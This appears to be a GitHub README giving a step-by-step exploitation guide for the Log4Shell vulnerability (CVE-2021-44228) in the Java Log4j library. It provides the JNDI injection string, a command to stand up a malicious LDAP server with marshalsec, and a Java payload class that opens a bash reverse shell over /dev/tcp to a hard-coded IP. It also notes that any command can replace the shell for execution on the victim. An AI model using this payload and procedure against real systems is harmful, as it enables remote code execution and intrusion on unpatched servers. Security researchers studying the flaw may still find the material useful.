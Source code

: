 
# About Log4Shell - CVE-2021-44228

Log4j is one of the most popular java frameworks. 

This framework involves an API call JNDI. 

This API allows developer to resolve naming services. JNDI has a function “Object lookup” which gives the possibility to return an object from its name.
For example, JNDI can query dns server to make correspondence between a domain name and an IP address, JNDI can also query a lot of services like LDAP or NIS…

The vulnerability takes place because log4j allow request to arbitrary LDAP or DNS server without checking the server response.
Then, an attacker can build malicious LDAP server and make the application execute a payload hosted on the fake LDAP.

Changed from [sam-the-admin](https://github.com/WazeHell/sam-the-admin).

## Overview of the Attack

![log4j schema Final](https://user-images.githubusercontent.com/76106120/147581673-63585c5c-ab97-47a8-ac34-b672aeb0be79.png)

# Exploit Log4j

## 1. Find Entry Point

You have to find entry point by injecting request to triggers JNDI lookup resolution to the malicious LDAP.

String to inject: ```${jndi:ldap://<ip>:<port>/<name-of-the-payload-to-execute>}```

First, you can start netcat listener and try to trigger it. 
If the netcat listener is trigger, then you know that the application is vulnerable. 

![image](https://user-images.githubusercontent.com/76106120/147582133-b8466261-e23b-4b8f-b997-9541877b06e9.png)
![image](https://user-images.githubusercontent.com/76106120/147582157-c4408876-3af2-42fe-a5ea-8866a0913886.png)



## 2. Build Malicious Server

In our case we gonna build malicious ldap server.
For that you can download this github project: https://github.com/mbechler/marshalsec.git

Once you are in the project, you are able to build malicious ldap server that redirects connection to a web server which host the payload in order to provide it to the JNDI lookup resolution 

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://<Web-Server-IP>:<Port>/#<name-of-the-payload>
```
 Demo :
 
![image](https://user-images.githubusercontent.com/76106120/147582798-29cca013-e779-491a-81bc-7a933ebde226.png)


## 3. Build Java Payload

Java Payload


```
public class ExploitTest {

    static {
        try {
            java.lang.Runtime.getRuntime().exec(new String[] {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.170.0.120/9001 0>&1"}).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```


>Note: You can replace the last element of the string array by whatever command you want to be executed on the victim host

When your payload is done and ready, you can compile it.
>Note: Keep in mind that the name of your class must be in the same of your .java file otherwise you will get an error during the compilation.

Demo :

![image](https://user-images.githubusercontent.com/76106120/147583275-02f8f4ac-64fd-403f-8ffd-9d9e545429c4.png)

## 4. Ready to Exploit

You can now start web server in the directory of the .class payload.

Hope you get this:

![image](https://user-images.githubusercontent.com/76106120/147583452-0c5aea7f-f4cc-4aa6-bd64-f36c7d5e1490.png)
